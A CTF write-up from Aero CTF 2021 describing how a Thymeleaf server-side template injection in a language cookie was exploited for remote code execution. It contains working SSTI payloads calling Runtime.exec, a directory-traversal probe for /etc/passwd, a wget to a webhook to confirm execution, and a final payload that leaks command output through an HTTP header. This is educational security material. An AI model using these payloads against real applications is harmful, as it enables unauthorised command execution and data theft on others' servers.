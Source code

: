 ## Aero CTF 2021
### Author: p4w @ [beerpwn](https://beerpwn.it)
### Twitter https://twitter.com/p4w16

## Challenge description (Web category)
![alt img](chall-desc.PNG)

## TL;DR
__Server Side Template Injection__ on __Thymeleaf__ template engine to gain __RCE__.

## Solution
### Discovery of the vuln
The challenge description says that the site is __available in english and russian__, this probably is written to point the attention to something involving the language.
Also the challenge description tell that the flag should be located at `/` on the file system, this make me think that it is necessary to gain at least an __arbitrary file read__ or __RCE__ to get the flag.
By inspection the site it is possible to notice that we can choose the language by clicking on a button.
As it is possible to notice that when the button is clicked (`onclick` event), then the `set_language(lang)` function will be executed.

![alt img](site.PNG)

![alt img](js.PNG)

The function simply set a cookie named __lang__ with the values __en__ or __ru__ and then reload the page.
Let's inspect the requests with burp-proxy.

![alt img](normal-req.PNG)

The first thing that I tried during the CTF, was to modify the cookie with some simple directory traversal payloads.

![alt img](dir_trav_3.PNG)

![alt img](dir_trav_1.PNG)

![alt img](dir_trav_2.PNG)

The directory traversal seems working, but if we try to include some arbitrary file (such as __/etc/passwd__) we got a __500 internal server error__. The error is verbose enough to show the server side exception: __org.thymeleaf.exceptions.TemplateInputException__ and
by googling this error, I come across to this template engine: [thymeleaf](https://www.thymeleaf.org/).

![alt img](thymeleaf.PNG)

The exception thrown seems to be related to loading the template, and that smells like __SSTI__ to me. So I start searching for __SSTI on Thymeleaf__ and I discovered a couple of related articles:
* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
* [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)

### Exploitation
Reading these articles, we can notice that a template injection in __Thymeleaf__ it may be possible if _a template name or a fragment are concatenated with untrusted data_.
To get a better explanation and details I really council the readers to read the articles mentioned before.
The proposed payloads to gain __RCE__ are these:

* `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("<cmd-here>").getInputStream()).next()}__::.x`
* `${T(java.lang.Runtime).getRuntime().exec('<cmd-here>')}`

At this point I simply tried one of these payloads into the __lang__ cookie with a command such as `wget <webhook-endpoint>` to verify the __command execution__
and it worked __:=)__.

![alt img](rce-poc-2.PNG)

Now I had __RCE__, since the flag was located at __/__, I needed some way to enumerate the file system contents and extract the flag. Problem was that it was not possible to use all the bash functionality such us `|, &, ``, $`. I also tried to extract files with and write files with `wget`, but no luck with that solution.
To summarize I had the ability to run commands, but no way to build a payload (__time based__ or __OOB__) that allow me to extract the output of an arbitrary command.
At this point I start to read the __thymeleaf__ [documentation](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html) and some [Java-doc](https://docs.oracle.com/javaee/6/api/javax/servlet/http/HttpServletResponse.html) for Java objects, the basic idea that I had was to insert the output of the executed command directly into the __response__, for example by using a crafted HTTP header response with the output. After a bit of pain, I was able to build this payload: `__${#response.setHeader("cmd-out","test")}__::.x` and it worked __:)__!\
*[the above payload should work well on __Thymeleaf 3.0__, probably for __Thymeleaf 2.1__ could be: `__${#ctx.httpServletResponse.setHeader("cmd-out","test")}__::.x`]

![alt img](thymeleaf-doc.PNG)

![alt img](javadoc.PNG)

![alt img](set-header.png)

Now that we have the ability to modify the response, I simply played a bit with the Java-doc to build a payload that reads the output of the command and save it into the crafted header.
The final payload:
```
__${#response.setHeader(\"cmd-out\",#uris.escapeQueryParam(new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec(\"ls\").getInputStream())).lines().toArray()[0]))}__::.x
```
This payload will execute the `ls` command, read the first line, url-encode it and insert in the `cmd-header` of the HTTP response.

[Here](./x.py) you can download a simple python script that I made during the CTF to automate all of these steps and read all the lines of the executed command.

![alt img](script-run.PNG)

That's all folks, I think that was really an interesting challenge!\
Cheers, [p4w](https://twitter.com/p4w16) =)
